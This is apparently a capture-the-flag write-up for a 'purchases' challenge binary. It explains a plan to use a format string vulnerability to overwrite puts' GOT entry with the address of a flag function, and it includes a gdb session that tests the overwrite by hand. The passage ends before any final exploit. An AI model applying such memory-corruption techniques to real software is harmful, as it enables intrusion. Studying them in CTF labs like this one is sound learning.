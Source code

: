 #### To have a better understanding of how we will exploit this challenge, here are quick links to `LiveOverflow`'s videos on format string exploitation and a Team (666)'s writeup I followed the format for mine:
> [A simple Format String exploit example - bin 0x11](https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=18)

> [Global Offset Table (GOT) and Procedure Linkage Table (PLT) - bin 0x12](https://www.youtube.com/watch?v=kUk5pw4w0h4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=19)

> [Format String Exploit and overwrite the Global Offset Table - bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=20)

> [Adapting the 32bit exploit to 64bit for format4 - bin 0x27](https://www.youtube.com/watch?v=_lO_rwaK_pY&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=42)

> [(666) Writeup for Purchases](https://github.com/Hong5489/AngstormCTF2019/tree/master/purchases)


### Brainstorming
#### Examining the source code again, we see that there is is a flag function which prints out the flag for us. Taking a note of this, our exploit plan will be to take advantage of the format string vulnerability to overwrite puts' `GOT address` to the flag function - thus making puts execute what flag does. To test if our plan would work, we try it out in gdb. We set a breakpoint before the puts call, then change the it's GOT address to the address of flag:
```
$ gdb ./purchases
	gdb-peda$ disas printf
	Dump of assembler code for function puts@plt:
	0x0000000000401030 <+0>:	jmp    QWORD PTR [rip+0x2fe2]        # 0x404018
	0x0000000000401036 <+6>:	push   0x0
	0x000000000040103b <+11>:	jmp    0x401020
	End of assembler dump..
	
	gdb-peda$ p flag
	$1 = {<text variable, no debug info>} 0x4011b6 <flag>
	
	gdb-peda$ disas main
	[...]
	0x000000000040131a <+337>:	call   0x401080 <printf@plt>
	0x000000000040131f <+342>:	lea    rdi,[rip+0xdda]        # 0x402100
	0x0000000000401326 <+349>:	call   0x401030 <puts@plt>
	0x000000000040132b <+354>:	mov    eax,0x0
	[...]
	
	gdb-peda$ break *0x0000000000401326
	Breakpoint 1 at 0x401326
	
	gdb-peda$ r
	What item would you like to purchase? everything
	You don't have any money to buy everythings. You're wasting your time! We don't even sell everythings. Leave this place and buy everything somewhere else. 
	Breakpoint 1, 0x0000000000401326 in main ()
	
	gdb-peda$ set {int}0x404018=0x4011b6
	
	gdb-peda$ x/ 0x404018
	0x404018:	0x00000000004011b6
	
	gdb-peda$ c
	Continuing.
	[New process 11726]
```